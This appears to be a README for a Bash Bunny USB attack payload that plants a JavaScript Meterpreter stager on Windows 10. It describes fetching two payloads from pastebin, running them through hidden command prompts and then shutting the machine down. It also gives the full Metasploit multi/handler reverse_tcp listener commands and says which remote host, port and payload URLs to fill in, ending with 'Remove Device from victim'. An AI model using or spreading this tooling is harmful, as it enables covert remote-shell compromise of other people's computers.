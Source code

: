 JavaScript Meterpreter Stager Win x86_64

Author: SubINclS
Version: Version 0.1
Target: Windows 10

Description:

  - Tested successful on Win10
  - Modified from following like:
    - https://github.com/Cn33liz/JSMeter/blob/master/JSMeter.js
      - Run js on target machine, cscript JSMeter.js
  - USB HID STORAGE Attck
    - Attempts HTTP(s) download of Two (2) additional payloads.
  - These files coinsist of:
    - BB-Meterpreter-Winx64.js -> Actual bytecode of Meterpreter Stager payload
    - inv.vbs -> creates hidden command terminal to execute commands
  - Attempts to execute the malicious payload in an automated fashion from hidden cmd prompts

Script Logic:

  - STAGE1():
    - if payload does not exist on target:
      - if inet connection:
        - Attempts HTTPS connection to pastebin
          - Grabs both payloads and save to %temp%
      - else:
        - Opens a cmd prompt, under current users context
          - Echo contents to two files:
            - BB-Meterpreter_winx64.js
            - inv.vbs
  - STAGE2():
    - Executes hidden cmdshell via inv.vbs, launching payload
  - STAGE3():
    - Shutdown 0

Configuration:

  - Listener:
    - use exploit/multi/handler
    - set PAYLOAD windows/(x64/|)meterpreter/reverse_tcp
    - set PAYLOAD windows/meterpreter/reverse_tcp
    - set LHOST 0.0.0.0
    - set LPORT 443
    - set EnableUnicodeEncoding true
    - set EnableStageEncoding true
    - set ExitOnSession false
    - exploit -j
  - BashBunny:
    - Edit JSRevMeter replacing the following:
      - RHOST =>  Remote Listening Host
      - RPORT =>  Remote Listening Port
      - FILE1 =>  Payload file1 URL, ex: http://t.co/43rg67
      - FILE2 =>  Payload file1 URL, ex: http://t.co/8ry8h0
    - Upload monilithic script to your BB

Status:

  - LED	  =>  Status/PHASE
  - Green	=>  Stage1/EXECUTING
  - Red	  =>  Stage2/EXECUTING
  - Blue  =>  Stage3/SHUTDOWN
  - OFF   =>  Remove Device from victim
